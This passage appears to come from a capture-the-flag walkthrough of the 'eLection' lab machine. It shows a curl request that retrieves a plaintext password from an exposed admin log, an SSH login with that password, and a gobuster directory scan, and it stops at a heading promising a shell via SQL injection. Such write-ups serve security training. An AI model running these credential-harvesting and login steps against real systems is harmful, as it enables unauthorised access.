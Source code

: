 ```bash
$ curl -s http://192.168.171.211/election/admin/logs/system.log
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-03-15 20:19:45] Love has been logged in from Unknown IP on Firefox (Linux).
```

If I try to ssh with these creds, I can:

```bash
$ ssh love@192.168.171.211
The authenticity of host '192.168.171.211 (192.168.171.211)' can't be established.
ED25519 key fingerprint is SHA256:z1Xg/pSBrK8rLIMLyeb0L7CS1YL4g7BgCK95moiAYhQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.211' (ED25519) to the list of known hosts.
love@192.168.171.211's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

471 packages can be updated.
358 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ whoami
love
```

### Shell via SQLi in eLection App

Fuzzing the `election` endpoint, I find a curious PHP file, `card.php`:

```bash
$ gobuster dir -u http://192.168.171.211/election/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.211/election/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/15 10:46:01 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 7003]
/.htaccess            (Status: 403) [Size: 280]
/.                    (Status: 200) [Size: 7003]
```